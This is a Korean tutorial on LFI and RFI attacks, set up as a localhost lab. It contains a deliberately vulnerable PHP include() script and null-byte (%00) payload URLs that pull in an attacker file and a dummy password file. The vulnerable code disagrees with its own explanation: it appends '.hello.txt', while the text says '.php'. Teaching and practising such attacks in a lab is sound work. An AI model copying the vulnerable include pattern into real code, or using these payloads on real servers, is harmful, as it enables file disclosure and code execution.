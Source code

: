 # LFI & RFI (18.07.12) #

```
* LFI - local에 대한 File Inclusion  (파일 포함)    

* RFI - Remote 에 대한 file Inclusion (파일 포함)
```

> Inclusion : 내 외부에서 특정 파일을 포함 시켜 취약점을 공격하는 해킹 기법                

- 해킹으로 말하자면 LFI 와 RFI 를 이용하여 웹 서버에 악성 코드를 넣는 기법.
  * 대표적인 것이 php의 include 함수이다.  역할은 특정 파일을 포함 시켜 스크립트를 실행.



![KakaoTalk_20180712_200615980](C:\Users\Yellme\Desktop\KakaoTalk_20180712_200615980.png)

LFI 를 통해 일반적인 파일을 불러와서 실행 시킨 웹 프로그래밍을 나타낸 것이다.

여기서 로컬 파일 대신 원격 파일을 불러 RFI 를 실행 할 수도 있다.![KakaoTalk_20180712_200758113](C:\Users\Yellme\Desktop\KakaoTalk_20180712_200758113.png)

저기 http 로컬 파일 부분에서 공격자가 특정 악성 파일을 넣거나 시스템상의 중요한 파일을 불러오게 만드는 것이 LFI 의 기본적인 이론이다.



------



## 실습 ##

실습을 하려면  autoset 9 와 wordpress 가 필요하다. 

[autoset 다운 받기](http://autoset.net/xe/download_autoset_9_0_0) 눌러서 다운을 받으신 후, 설정은 구글링 참고 하셔서  [wordpress 설치과정 ](http://luxmylife.tistory.com/231) 을 보며 설치해주세요.

이 실습의 예제는 색상을 선택하면 해당 색상의 글자가 나오는 프로그램이다.

해당 프로그램은 사용자로부터 색상을 넘겨받아 브라우저에 색상을 나타내는 프로그램이다.

이떄, 해당 프로그램의 변수를 넘기는 부분의 취약점을 파악해 다른 목적의 코드를 넘겨 해킹을 하는 실습이다.

실습 과정은 다음과 같은 과정으로 이루어진다.

![KakaoTalk_20180712_200919235](C:\Users\Yellme\Desktop\KakaoTalk_20180712_200919235.png)

**1) Step 1  : 색상 변환 php 예제 만들기**

< color.html >

```
<center>
<form action='vulnerable.php' method="get">
<select name="COLOR">
<option value="red">red</option>
<option value="blue">blue</option>
</select>
<input type="submit">
</form>
</center>
```

from 은 색상 값을 컬러라는 변수를 통해 Vulneable.php 를 Get 방식으로 넘긴다는 내용이고, 선택 가능 한 색은 red 와 blue 두가지 색상 뿐이다.

< blue.php >

```
<center>
<font color='BLUE'><h1>BLUE</h1></font>
</center>
```

< Red.php >

```
<center>
<font color='red'><h1>RED</h1></font>
</center
```

<Vulneable.php >

```
<?php
if (isset($_GET['COLOR']))
	$color = $_GET['COLOR'];
include ($color.'.hello.txt');
?>
```

이 소스코드는 color.html 에서 컬러 변수 값을 받아 해당 색상 파일을 읽어서 보여주는 것이다.



자 ! 이제 작성한 파일을 모두 lfi 폴더에 넣고 color.html를 실행 해보면 

![1531415797993](C:\Users\Yellme\AppData\Local\Temp\1531415797993.png)

이런 화면이 뜰 것이다.  그럼 일단 반은 성공이다. 

그리고 나서 기본 값인 red를 선택후 제출을 누르면 다음 화면이 나오게 된다.![1531416311508](C:\Users\Yellme\AppData\Local\Temp\1531416311508.png)

**2) Step 2 : 색상 외의 다른 파일 포함**

두번째 단계는 LFI 공격으로 공격자가 원하는 파일을 포함 시켜야한다. 

< hello.txt >   -  공격자 파일

```
<center>
<?php
$color = 'hello';
echo "user : ".$color."\n\n";
?>
</center>
```

이 파일을 C:\\\\upload 에 저장을 하고 

Vulneable.php 의 include ($color.'.php') 에 hello.txt 를 넣는다. 

하지만  hello.txt를 넘겨주게 되면 다음과 같은 에러가 발생한다.

![1531417593323](C:\Users\Yellme\AppData\Local\Temp\1531417593323.png)

에러가 발생한 이유는 hello.txt 만 포함을 시키고 싶은데 Vulneable.php는 파일명을 받아 뒤에 

**.php** 확장자를 붙이기 때문이다. 

php는 문자열 처리시 문자열 끝에 마지막을 의미하는 Null Byte(0x00)를 넣는다.  그리고 프로그램은 문자열을 읽으면서 Null Byte를 만나게 되면 해당 문자열이 끝났음으로 인식을 한다.

그렇기 때문에 전달 변수에 Null Byte를 넣어 php 확장자를 제거 해야한다. 

그래서 url 인코딩 값인 %00을 사용을 해야한다.

```
http://127.0.0.1/lfi/Vulneable.php?COLOR=C:\\upload\\hello.txt%00
```

이러한 공격을 퍼센트 인코딩 (Percent Encoding)이라고한다. 

위에 있는 url 를 넘겨주게 되면 다음과 같은 화면이 나온다.

![1531418120190](C:\Users\Yellme\AppData\Local\Temp\1531418120190.png)

LFI 공격은 웹 프로그램의 'COLOR'와 같은 매개변수 등의 취약점을 통해 의도치 않은 서버 내 파일인 'hello.txt' 를 실행을 시킨다.



**3) Step 3 : 시스템 패스워드 파일 포함**

이제 여기서 세번째 단계인 시스템의 패스워드를 가져오도록 하자.

일단 password.txt 파일을 만들어  Sean / qwer1234 (아이디 / 패스워드) 를 적어서

C:\Temp\password.txt  에 넣어준다.   

아래의 url과 같이 퍼센트 인코딩을 해주고 넘겨주게 되면 !!

```
http://127.0.0.1/lfi/Vulneable.php?COLOR=C:\\Temp\\password.txt%00
```



![1531419440184](C:\Users\Yellme\AppData\Local\Temp\1531419440184.png)

 

이 화면이 나오면 LFI 공격으로 시스템의 패스워드 해킹이 성공한 것이다.

이렇게 LFI의 간단한 공격 실습이 끝났다.
